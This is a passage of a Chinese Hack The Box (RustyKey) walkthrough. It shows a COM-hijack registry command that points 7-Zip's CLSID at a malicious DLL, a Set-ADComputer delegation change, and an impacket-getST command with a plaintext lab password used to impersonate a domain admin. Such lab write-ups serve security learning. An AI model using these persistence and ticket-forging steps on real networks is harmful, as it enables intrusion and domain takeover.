   
用前面获得的 EE 用户修改注册表为恶意 dll 的路径，如果有人使用了 7zip，就会执行恶意 dll  

```
reg add &#34;HKLM\Software\Classes\CLSID\{23170F69-40C1-278A-1000-000100020000}\InprocServer32&#34; /ve /d &#34;C:\windows\temp\RTCC.dll&#34; /f
```

  
经过一会儿等待后，msf 上线一个 MM.TURNER 用户  
### 约束委派  
  
MM 用户属于 DELEGATIONMANAGER 组，后者对域控有
```
AddAllowedToAct
```

  
权限  
> AddAllowedToAct 是域中的一种权限，允许某个用户或计算机账户配置其他账户的 "允许充当"（AllowedToAct）属性，从而控制Kerberos约束委派的权限，可以修改目标账户的委派设置，使其能代表其他用户访问特定服务，或用于伪造高权限账户（如域管理员）的票据（TGT/TGS），访问敏感资源。AddAllowedToAct 权限滥用可导致权限提升和横向移动，是域渗透中的关键攻击面之一  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5HsgFkdwV2JDksTIzNoQia29xVndYNQp04AUY6GHwtoQosvHjzVMQqUxy89gTXlD85HYFqWKuLeABK6rknB8VnA/640?wx_fmt=png&from=appmsg "null")  
  
  
powershell 命令设置一下约束委派，使
```
IT-COMPUTER3$
```

  
可以冒充域控机器  

```
# 设置域控的约束委派
Set-ADComputer -Identity DC -PrincipalsAllowedToDelegateToAccount &#34;IT-COMPUTER3$&#34;

# 查询域控的约束委派，关注 PrincipalsAllowedToDelegateToAccount 字段
Get-ADComputer DC -Properties PrincipalsAllowedToDelegateToAccount
```

  
![](https://mmbiz.qpic.cn/mmbiz_jpg/5HsgFkdwV2JDksTIzNoQia29xVndYNQp0xzZfrCbd8dYsQq5YeU7Gyf4ZkQn3Rw5icxibJaGeEbmliaJvGYCgP32NA/640?wx_fmt=jpeg&from=appmsg "null")  
  
  
现在 IT-COMPUTER3$ 可以以 DC 的身份访问一些服务，制作白银票据，申请一张域管 backupadmin 身份的票据去访问文件共享服务器  

```
impacket-getST 'RUSTYKEY.HTB/IT-COMPUTER3$:Rusty88!' -spn 'cifs/DC.rustykey.htb' -impersonate backupadmin -dc-ip 10.10.11.75
```

  
如下票据请求成功，在当前目录下生成一个
```
.ccache
```

  
票据，添加到环境变量  
  